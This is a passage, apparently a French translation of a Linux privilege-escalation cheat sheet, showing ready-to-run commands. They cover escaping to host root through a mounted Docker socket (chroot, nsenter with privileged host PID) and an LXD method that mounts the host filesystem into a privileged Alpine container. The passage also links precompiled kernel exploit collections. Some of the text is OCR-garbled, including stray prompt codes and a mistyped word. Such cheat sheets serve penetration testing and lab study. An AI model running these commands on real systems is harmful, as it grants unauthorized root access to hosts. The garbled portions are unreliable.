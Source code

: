 Plus d'escalade de privilèges en utilisant le cocker Docker.

```powershell
sudo docker -H unix:///google/host/var/run/docker.sock run -v /:/host -it ubuntu chroot /host /bin/bash
sudo docker -H unix:///google/host/var/run/docker.sock run -it --privileged --pid=host debian nsenter -t 1 -m -u -n -i sh
```

### LXC/LXD

privesc requiert le lancement d'un conteneur avec des privilèges élevés et le montage du système de fichiers de l'hôte à l'intérieur.

```powershell

f1 'a8'71'a9'a4
f0 swissky@lab ~  

f1 'a8'74'a9'a4
f0 $ id
uid=1000(swissky) gid=1000(swissky) groupes=1000(swissky),3(sys),90(network),98(power),110(lxd),991(lp),998(wheel)
```

On crée une image Alpine et on la démarre en utilisant `security.privileged=true`, obligeant le conteneur à interagir en tant que root avec le système de fichiers de l'hôte.

```powershell
# On crée une image Alpine simple
git clone https://github.com/saghul/lxd-alpine-builder
./build-alpine -a i686

# On importe l'image
lxc image import ./alpine.tar.gz --alias myimage

# On lance l'image
lxc init myimage mycontainer -c security.privileged=true

# On monte le /root à l'intérieur de l'image
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true

# On interagit avec le conteneur
lxc start mycontainer
lxc exec mycontainer /bin/sh
```

En alternative, https://github.com/initstring/lxd_root

## Exploits Kernel

On peut trouver des exploits pré-compilés dans ces repos, utilisez-les à vos risques et périls !
* [bin-sploits - @offensive-security](https://github.com/offensive-security/exploitdb-bin-sploits/tree/master/bin-sploits)
* [kernel-exploits - @lucyoa](https://github.com/lucyoa/kernel-exploits/)
